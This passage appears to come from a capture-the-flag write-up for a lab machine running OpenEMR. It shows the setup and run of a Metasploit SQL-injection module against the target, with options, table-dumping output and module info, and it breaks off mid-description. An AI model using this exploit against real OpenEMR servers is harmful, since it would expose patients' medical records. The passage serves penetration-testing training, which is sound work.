 The first one seems promising, let's set it up:

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > options

Module options (auxiliary/sqli/openemr/openemr_sqli_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.188     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the OpenEMR installation
   VHOST      hms.htb          no        HTTP server virtual host
```

When we run it we can see the exploit works, but it seems poorly written because
it is trying to dump all system tables (295) and it's pretty slow.

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
[*] Running module against 10.10.10.188

[*] DB Version: 5.7.30-0ubuntu0.18.04.1
[*] Enumerating tables, this may take a moment...
[*] Identified 295 tables.
[*] Dumping table (1/295): CHARACTER_SETS
[*] Dumping table (2/295): COLLATIONS
```

So let's exit that, the msf module will take hours to extract all those useless
tables.

Now we know the this SQLi is working let's see what exploit it is exactly:

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > info

       Name: OpenEMR 5.0.1 Patch 6 SQLi Dump
     Module: auxiliary/sqli/openemr/openemr_sqli_dump
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2019-05-17

Provided by:
  Will Porter <will.porter@lodestonesecurity.com>

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     10.10.10.188     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the OpenEMR installation
  VHOST      hms.htb          no        HTTP server virtual host

Description:
  This module exploits a SQLi vulnerability found in OpenEMR version
```